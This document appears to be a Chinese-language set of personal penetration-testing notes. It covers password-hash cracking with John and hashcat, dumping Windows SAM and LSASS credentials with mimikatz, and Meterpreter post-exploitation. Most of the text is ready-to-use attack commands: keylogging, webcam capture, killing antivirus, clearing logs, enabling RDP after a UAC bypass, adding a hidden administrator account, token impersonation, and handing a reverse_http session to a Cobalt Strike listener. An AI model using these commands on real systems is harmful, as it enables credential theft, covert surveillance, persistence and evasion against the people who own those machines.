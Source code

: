 john test.txt --format=crypt

 john爆破出现Using default input encoding: UTF-8 No password hashes loaded (see FAQ)
 我以为是
 >在Vim中直接进行转换文件编码,比如将一个文件转换成utf-8格式  
`:set fileencoding=utf-8`
查看文件格式  
`:set fileformat?`
设置文件格式为 unix  
`:set fileformat=unix`

结果不是
 出现这个提示不是说明破解失败了，而是这个hash以前被你破解过，可以使用以下命令查看破解出的密码是什么。
使用下面这条命令即可解决
john --show password.txt

msf永恒之蓝命令执行后：
hashdump得到的值拿到最后32位字母数字组合可以在下图,注意类型是NTLM
![[Pasted image 20240318142344.png]]

![[Pasted image 20240318114658.png]]

unshadow命令基本上会结合/etc/passwd的数据和/etc/shadow的数据，创建1个含有用户名和密码详细信息的文件
unshadow /etc/passwd /etc/shadow > shadow

Windows的登录密码的hash值保存在SAM文件中，SAM是“security account manager”的首字母缩写。通常，它位于

```
  C:\windows\system32\config\SAM
```
SAM文件被Windows保护，不能直接读取，需借助工具，如[SAMInside](http://www.insidepro.com/download/saminside.zip)。找一台Windows7虚拟机，新建一个名为hashcat的管理员用户，并设置密码，在Windows7中下载并解压SAMInside后以管理员权限运行，然后点击File->Import Local Users vis Scheduler，如下图所示：
```css
//导出 SAM 和 System 文件：通过 reg 的注册表导出
reg save hklm\sam sam.hive 
reg save hklm\system system.hive
move 移动文件
//使用mimikatz读取SAM和System文件
lsadump::sam /sam:sam.hive /system:system.hive
```
```css
samdump2 system.hive sam.hive > hash.txt
```
```bash
john -format=NT hash.txt  #破解,使用john自带的密码字典
john --show -format=NT hash.txt    #查看破解结果
```

![[Pasted image 20240318155653.png]]

```
ssh2john ~/.ssh/id_rsa > id_rsa.hash
```

```
keepass2john newdb.kdb > newdb.kdb.hash
```

```
rar2john encrypted.rar > encrypted.rar.hash
```

>[!ips]
后渗透阶段:
在meterpreter > 中我们可以使用以下的命令来实现对目标的操作：
sysinfo             #查看目标主机系统信息
run scraper         #查看目标主机详细信息
hashdump        #导出密码的哈希
load kiwi           #加载
ps                  #查看目标主机进程信息
pwd                 #查看目标当前目录(windows)
getlwd              #查看目标当前目录(Linux)
search -f *.jsp -d e:\                #搜索E盘中所有以.jsp为后缀的文件
download  e:\test.txt  /root          #将目标机的e:\test.txt文件下载到/root目录下
upload    /root/test.txt d:\test      #将/root/test.txt上传到目标机的 d:\test\ 目录下getpid              #查看当前Meterpreter Shell的进程
PIDmigrate 1384     #将当前Meterpreter Shell的进程迁移到PID为1384的进程上
idletime            #查看主机运行时间
getuid              #查看获取的当前权限
getsystem           #提权
run  killav         #关闭杀毒软件
screenshot          #截图
webcam_list         #查看目标主机的摄像头
webcam_snap         #拍照
webcam_stream       #开视频
execute  参数  -f 可执行文件   #执行可执行程序
run getgui -u hack -p 123    #创建hack用户，密码为123
run getgui -e                #开启远程桌面
run post/windows/manage/enable_rdp
keyscan_start                #开启键盘记录功能
keyscan_dump                 #显示捕捉到的键盘记录信息
keyscan_stop                 #停止键盘记录功能
uictl  disable  keyboard     #禁止目标使用键盘
uictl  enable   keyboard     #允许目标使用键盘
uictl  disable  mouse        #禁止目标使用鼠标
uictl  enable   mouse        #允许目标使用鼠标
load                         #使用扩展库
run				             #使用扩展库
clearev                       #清除日志

mimikatz
```python
##右键以管理员权限运行
##获取调试权限
privilege::debug
#在具有Isass进程的权限才可以抓到密码
##抓取密码
sekurlsa::logonpasswords

```

wifi密码抓取
```css
netsh wlan show profile 
netsh wlan show profile name="ssid" KEY=clear
```

windows 控制台cmd乱码的解决办法 chcp 65001

开启远程桌面的办法
```cs
getuid
#如果当前是user权限要管理员权限才能开启3389
#要用到bypassuac提权
use exploit/windows/local/bypassuac
set session 1
run

run post/windows/manage/enable_rdp

#进入shell
net user hacker 123qwe.. /add
#将用户提升到管理员权限
net localgroup administrators hacker /add

rdesktop -u hacker -p 123qwe..  192.168.1.145
```

```Css
使用kiwi来获取靶机密码，注意这里需要进行的一个操作为进程迁移，因为我们这里上线到msf的载荷是32位的(即x86)，这里需要找一个64位的(即x64)进行进程迁移才能使用kiwi获取靶机密码

sessions -i 2
load kiwi
kiwi_cmd privilege::debug
ps
#getpid #查看meterpreter shell的进程号

migrate 1144
#kill 2496 #关闭进程
#run post/windows/manage/migrate #自动迁移进程

kiwi_cmd sekurlsa::logonPasswords

```

遇到杀软，无法甜土豆提权，可msf获得会话后假冒令牌提权
```css
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
getuid
```

msf联动cs
```css
回到msf，输入background，将我们得到的会话放在后台
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set lport 1233 #cobaltstrike监听的端口
set lhost 192.168.19.129 #cobaltstrike监听的ip
set disablepayloadhandler true #默认情况下，payload_inject执行之后会在本地产生一个新的handler，由于我们已经有了一个，所以不需要在产生一个，所以这里我们设置为true
set session 1 #这里是获得的session的id
**打开cs 开启监听，端口为1233，点击add添加监听*
```


参考链接
[使用hashcat爆破各种hash | 若水斋](https://blog.werner.wiki/use-hashcat-crack-all-kinds-of-hash/)

[Windows 用户密码的加密方法与破解 | 国光](https://www.sqlsec.com/2019/11/winhash.html)

[永恒之蓝漏洞复现(ms17-010) - hkgan - 博客园](https://www.cnblogs.com/hkgan/p/17339860.html)

[SMBGhost\_RCE漏洞利用（MSF和CS联动） - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/277707.html)

[MSF中kiwi模块的使用\_load kivi-CSDN博客](https://blog.csdn.net/m0_53087192/article/details/112707016)